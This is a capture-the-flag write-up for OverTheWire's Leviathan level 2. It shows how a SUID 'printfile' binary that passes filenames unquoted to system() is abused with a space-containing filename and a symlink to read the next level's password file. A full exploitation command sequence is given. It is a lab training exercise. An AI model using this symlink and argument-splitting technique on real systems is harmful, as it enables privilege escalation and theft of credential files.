


## Leviathan Level 2 → 3

**Concept:** SUID binary abuse through filename manipulation and command injection via whitespace handling
**Difficulty:** Medium
**Tools Used:** ls, ltrace, ln, chmod, mktemp

---

### What the level gives you

After logging in as `leviathan2`, I found a SUID binary named `printfile`. Unlike the previous level, the binary did not request a password and instead appeared to operate on files supplied as command-line arguments.

Because the binary executed with the privileges of `leviathan3`, understanding how it handled user-supplied filenames became the primary focus of the challenge.

---

### Enumeration

I began by creating a temporary working directory so that I could safely experiment with the binary without affecting other files on the system.

Inside this directory, I created a file named `test file.txt`. The intentional space in the filename was chosen to observe how the program handled arguments containing whitespace.

Before attempting exploitation, I traced the program with `ltrace` while supplying the file as input. The trace revealed several important details. First, the binary verified file access using `access()`. More importantly, it constructed a command string using `snprintf()` and later executed that string through `system()`.

This immediately raised a red flag. Whenever user-controlled input is passed into a shell command, improper handling of whitespace or shell metacharacters can introduce unexpected behaviour.

The trace showed that the binary was building a command similar to:

```text id="rm3wpk"
/bin/cat <user_supplied_filename>
```

Because my filename contained a space, the shell interpreted it as two separate arguments rather than a single filename.

---

### Analysis

The turning point came from examining the `ltrace` output rather than treating the binary as a black box.

The `system()` call showed that the binary relied on shell execution rather than directly opening the file itself. This meant the shell would perform argument parsing before `cat` executed.

When I supplied `test file.txt`, the resulting command was interpreted as:

```text id="m74mgc"
/bin/cat test file.txt
```

instead of:

```text id="a7m2fi"
/bin/cat "test file.txt"
```

As a result, `cat` attempted to read two separate files named `test` and `file.txt`.

This behaviour suggested an opportunity. If I could control what `cat` attempted to open, I might be able to redirect one of those filenames toward a protected file owned by `leviathan3`.

I created a symbolic link named `test` that pointed to `/etc/leviathan_pass/leviathan3`. Since the shell split the filename at the space character, the program would unintentionally pass the symlink target to `cat`.

When the SUID binary executed, `cat` accessed the symlink using the privileges of `leviathan3`, exposing the password for the next level.

The key insight was recognizing that the vulnerability was not in file permissions but in unsafe command construction using user-controlled input.

---

### Exploitation

```bash id="g0hhl8"
# Step 1: Log in as leviathan2
ssh leviathan2@leviathan.labs.overthewire.org -p 2223

# Step 2: Create a temporary workspace
mktemp -d

# Step 3: Create a filename containing a space
touch "/tmp/tmp.pksNT3Ci1D/test file.txt"

# Step 4: Trace the binary to understand how filenames are handled
ltrace ./printfile "/tmp/tmp.pksNT3Ci1D/test file.txt"

# Step 5: Create a symbolic link named 'test' that points to the password file
ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.pksNT3Ci1D/test

# Step 6: Verify the symbolic link exists
ls -la /tmp/tmp.pksNT3Ci1D

# Step 7: Ensure the directory can be traversed
chmod 777 /tmp/tmp.pksNT3Ci1D

# Step 8: Execute the vulnerable SUID binary
./printfile "/tmp/tmp.pksNT3Ci1D/test file.txt"

# Output / password captured:
# [REDACTED]
```

---

### Screenshot





---

### Real-world relevance

This level demonstrates a classic secure coding failure: constructing shell commands with unsanitized user input. Similar vulnerabilities have appeared in backup tools, administrative scripts, monitoring agents, and internally developed Linux utilities.

During penetration tests, auditors frequently examine SUID programs for calls to `system()`, `popen()`, or shell wrappers that process attacker-controlled data. Improper quoting, whitespace handling, and command construction bugs can result in privilege escalation or arbitrary command execution under elevated privileges.

---

### What I'd do differently

Initially, the binary appeared to be a simple file-printing utility. After observing the `system()` call in `ltrace`, I would immediately focus on shell parsing behaviour and argument injection opportunities rather than spending time testing normal file access scenarios.
